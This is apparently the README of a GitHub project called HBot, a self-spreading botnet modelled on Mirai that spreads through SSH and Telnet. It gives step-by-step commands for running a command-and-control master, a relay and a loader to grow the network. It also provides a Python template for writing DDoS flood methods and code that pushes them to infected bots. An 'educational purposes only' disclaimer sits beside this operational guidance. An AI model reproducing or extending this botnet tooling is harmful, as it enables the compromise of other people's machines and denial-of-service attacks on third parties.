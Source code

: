 <h1 align="center">HBot</h1>

<p align='center'>
    <b>Self spreading Botnet based on Mirai C&C Arch, spreading through SSH and Telnet protocol.<br>Modern script fullly written in python3.</b><br>
    <br>
    <img src='https://media.discordapp.net/attachments/878090550564241439/878787633621401630/unknown.png'>
</p>

----

<br><br>

> # Warning.

* ***This project was made for educational purposes only! I take no responsibility for anything you do with this program.***
* ***If you have any suggestions, problems, open a problem (if it is an error, you must be sure to look if you can solve it with [Google](https://giybf.com)!)***

<br>

> # Requirements.

* A **Brain**, *yes skiddie, you need to use your brain, but d'ont worry because [Google](https://giybf.com) is your best friend !*
* A [MongoDB](https://mongodb.com) account, you must create an **cluster** with **database**, show [tutorial](https://docs.atlas.mongodb.com/getting-started/).
* VPS with __Debian__ based distribution.
* __2__ Open port. Default: **8080**, **1337**
* Time..

<br>

> # How to setup.

* *Change the permissions of the scripts with the chmod command.*
```sh
chmod +x ./script/*.sh
```

* *Run installation script.*
```sh
./Install.sh
```

* *Start C&C Master server.*
```sh
./RunMaster.sh
```

* *Start Relay server.*
* **Note**: If you have more than one VPS, you can run relay on other server.
```sh
./RunMaster.sh
```

* *When you have enough new bots, you can expand your network by starting the loader.*
```sh
./Loader.sh
```

<br>

> # Custom payload.

***If you whant to share your methods, just create pull requests <3***

1. Create your method with the template (*#1*)
2. You need to add your method in class `Zombie` (**cnc.py** / *#2*)


- #1:
```py
import socket, threading, time

def method_name(ip: str, timeout: str, thread: str):
    def flood(ip: str, port: int, timeout: int):
        start_time = int(time.time())

        while int(time.time()) - start_time < timeout:
            # write method code here
            # Exemple: https://github.com/Its-Vichy/HBot/blob/main/src/payload/http_flood.py

    for _ in range(int(thread)):
        threading.Thread(target= flood, args=(ip, 80, int(timeout))).start()

method_name('!ip!', '!port!', '!time!')
```

- #2:
```py
def ddos_payload(self, ip: str, port: str, timeout: str, type: str):
    if type == 'http':
        payload = self.parse_method('./payload/http_flood.py', ip, port, timeout)
    
    if type == 'your method name without space lmao':
        payload = self.parse_method('./payload/your_method_file.py', ip, port, timeout)
        
    self.send(f'run|{payload}')
```
 
<br>

> # How is working.

* **Loader**: soon..
* **Relay**: soon..
* **C&C**: soon..

<br>

> # Support me.

* ⚠️ If this repository was empty, its because the project stay in **developpement**.
* Thanks for looking at this repository, if you like to press the ⭐ button!
* Made with 💖 by [Vichy](https://github.com/Its-Vichy).
* RCΛ Love u.

<p align="center"> 
    <b>Informations</b><br>
    <img alt="GitHub Repo stars" src="https://img.shields.io/github/stars/Its-Vichy/HBot?style=social">
    <img alt="GitHub top language" src="https://img.shields.io/github/languages/top/Its-Vichy/HBot">
    <img alt="GitHub last commit" src="https://img.shields.io/github/last-commit/Its-Vichy/HBot">
    <img alt="GitHub" src="https://img.shields.io/github/license/Its-Vichy/HBot">
    <img alt="GitHub watchers" src="https://img.shields.io/github/watchers/Its-Vichy/HBot?style=social">
</p>
